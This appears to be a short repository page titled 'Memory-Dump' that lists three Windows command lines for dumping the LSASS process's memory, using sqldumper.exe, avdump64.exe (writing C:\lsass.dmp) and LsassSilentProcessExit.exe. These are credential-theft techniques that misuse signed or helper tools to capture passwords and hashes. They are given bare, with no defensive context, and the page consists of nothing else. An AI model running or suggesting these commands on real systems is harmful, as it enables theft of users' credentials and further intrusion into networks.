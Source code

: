 # Memory-Dump

```
sqldumper.exe <lsass PID> 0 0x01100

```

```
.\avdump64.exe --pid <pid> --exception_ptr 0 --thread_id 0 --dump_level 1 --dump_file C:\lsass.dmp
```

```
LsassSilentProcessExit.exe <pid> 0
```
